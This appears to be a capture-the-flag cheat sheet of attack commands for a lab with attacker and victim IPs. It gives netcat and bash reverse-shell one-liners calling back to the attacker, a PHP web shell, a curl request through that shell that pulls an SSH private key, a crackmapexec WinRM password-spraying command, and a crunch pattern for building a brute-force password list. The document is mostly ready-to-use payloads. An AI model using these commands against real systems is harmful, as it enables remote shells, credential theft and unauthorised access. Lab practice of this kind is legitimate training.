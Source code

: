 CTF

Attacker: 10.10.1.2
Victim: 10.10.1.10


# Reverse Shells
[https://www.revshells.com/](https://www.revshells.com/)

Netcat
```sh
nc 10.10.1.2 4444 -e /bin/bash
```

Bash
```sh
/bin/bash -i >& /dev/tcp/10.10.1.2/4444 0>&1
```

PHP cmd
```sh
<?php system($_GET['cmd']); ?>
```

Curl
```sh
curl http://10.10.1.10/upload/cmd.php?cmd=cat%20/var/www/id_rsa > id_rsa
```


# Crackmapexec

```sh
crackmapexec winrm 10.10.1.10 -u Administrator -p passlist
```

Metasploit: Metasploit Auxiliary module `Auxiliary/scanner/winrm/winrm_login`


# Crunch
By the rules we can crack administrator password. We use crunch to generate sequence number at last two digits and a special character.

A symbol + username(Uppercase) + 4 digits of the year you born
```sh
crunch 18 18 -t ^ADMINISTRATOR19%% > passlist
```


# Curl
Example
```sh
curl http://10.10.1.10/upload/cmd.php?cmd=cat%20/var/www/id_rsa > id_rsa
```
